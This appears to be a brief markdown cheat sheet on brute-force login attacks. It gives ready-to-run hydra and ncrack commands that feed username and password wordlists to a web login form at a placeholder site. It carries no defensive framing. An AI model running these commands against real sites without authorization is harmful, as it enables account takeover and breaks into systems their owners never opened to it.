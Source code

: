 # Brute force attacks

## With hydra

```
hydra website.com http-post-form "/:login=^USER^&password=^PASS^:F=Wrong" -L logins.txt -P passwords.txt
```

## With ncrack

```
ncrack website.com -g path=/directory -U logins.txt -P passwords.txt
```
